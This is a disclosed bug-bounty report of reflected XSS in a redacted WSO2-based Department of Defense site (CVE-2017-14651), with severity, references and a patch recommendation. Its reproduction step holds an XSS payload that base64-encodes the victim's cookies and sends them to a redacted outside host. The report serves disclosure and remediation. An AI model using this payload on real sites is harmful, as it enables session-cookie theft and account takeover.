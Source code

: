 # Reflected XSS at www.███████ at /██████████ via the ████████ parameter

## Report Details
- **Report ID**: 1173593
- **URL**: https://hackerone.com/reports/1173593
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-04-24T05:50:46.444Z
- **Disclosed**: 2021-06-03T16:25:25.825Z

## Reporter
- **Username**: un4gi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
The www.████████ site is using `████`, which is vulnerable to reflected XSS in the `/█████` component via the `█████████` parameter.

## References
https://www.cvedetails.com/cve/CVE-2017-14651/
https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2017-0265

## Impact

An attacker can cause malicious code to execute in the victims browser, leading to credential theft, drive-by downloads, malicious redirects, and more.

## System Host(s)
www.██████████

## Affected Product(s) and Version(s)
████████

## CVE Numbers
CVE-2017-14651

## Steps to Reproduce
Browse to https://www.███████/███████?██████████=%3Cimg%20src=x%20onerror="a='http%3a%2f%2f███';b='%3Fcookie=';c=btoa(document.cookie);window.open(a%2bb%2bc)">

## Suggested Mitigation/Remediation Actions
Apply ███ (see references section)



## Attachments
No attachments
